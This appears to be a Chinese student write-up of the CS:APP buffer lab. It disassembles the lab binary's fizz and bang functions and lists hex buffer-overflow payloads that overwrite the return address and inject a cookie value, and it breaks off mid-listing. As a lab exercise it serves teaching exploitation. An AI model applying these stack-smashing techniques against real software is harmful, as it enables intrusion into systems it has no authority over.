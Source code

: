 ```c
 8048c36:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048c3d:   e8 be fc ff ff          call   8048900 <exit@plt>
```
思路显而易见"a" * 0x28 + p32(ebp) + p32(0x80c1848)(一开始地址弄错了怎么都没出......)
最后的payload
```python
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 18 8c 04 08
```

### level2 - fizz ###
fizz函数,地址为0x08048c42 -> 42 8c 04 08
```c
08048c42 <fizz>:
 8048c42:   55                      push   %ebp
 8048c43:   89 e5                   mov    %esp,%ebp
 8048c45:   83 ec 18                sub    $0x18,%esp
 8048c48:   8b 45 08                mov    0x8(%ebp),%eax
 8048c4b:   3b 05 08 d1 04 08       cmp    0x804d108,%eax
 8048c51:   75 26                   jne    8048c79 <fizz+0x37>
 8048c53:   89 44 24 08             mov    %eax,0x8(%esp)
 8048c57:   c7 44 24 04 ee a4 04    movl   $0x804a4ee,0x4(%esp)
 8048c5e:   08 
 8048c5f:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048c66:   e8 55 fd ff ff          call   80489c0 <__printf_chk@plt>
 8048c6b:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048c72:   e8 04 07 00 00          call   804937b <validate>
 8048c77:   eb 18                   jmp    8048c91 <fizz+0x4f>
 8048c79:   89 44 24 08             mov    %eax,0x8(%esp)
 8048c7d:   c7 44 24 04 40 a3 04    movl   $0x804a340,0x4(%esp)
 8048c84:   08 
 8048c85:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048c8c:   e8 2f fd ff ff          call   80489c0 <__printf_chk@plt>
 8048c91:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048c98:   e8 63 fc ff ff          call   8048900 <exit@plt>
```
只要保证传给这个函数的参数为cookie就可以了,
payload = "a" * 0x28 + p32(ebp) + p32(ret) + p32(push) + p32(cookie) 
payload
```c
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 42 8c 04 08 00 00 00 00 b6 e9 a9 43
```

### level3 - bang ###
bang地址0x08048c9d -> 9d 8c 04 08,cookie = 0x43a9e9b6
```c
08048c9d <bang>:
 8048c9d:   55                      push   %ebp
 8048c9e:   89 e5                   mov    %esp,%ebp
 8048ca0:   83 ec 18                sub    $0x18,%esp
 8048ca3:   a1 00 d1 04 08          mov    0x804d100,%eax
 8048ca8:   3b 05 08 d1 04 08       cmp    0x804d108,%eax
 8048cae:   75 26                   jne    8048cd6 <bang+0x39>
 8048cb0:   89 44 24 08             mov    %eax,0x8(%esp)
 8048cb4:   c7 44 24 04 60 a3 04    movl   $0x804a360,0x4(%esp)
 8048cbb:   08 
 8048cbc:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048cc3:   e8 f8 fc ff ff          call   80489c0 <__printf_chk@plt>
 8048cc8:   c7 04 24 02 00 00 00    movl   $0x2,(%esp)
 8048ccf:   e8 a7 06 00 00          call   804937b <validate>
 8048cd4:   eb 18                   jmp    8048cee <bang+0x51>
 8048cd6:   89 44 24 08             mov    %eax,0x8(%esp)
 8048cda:   c7 44 24 04 0c a5 04    movl   $0x804a50c,0x4(%esp)
```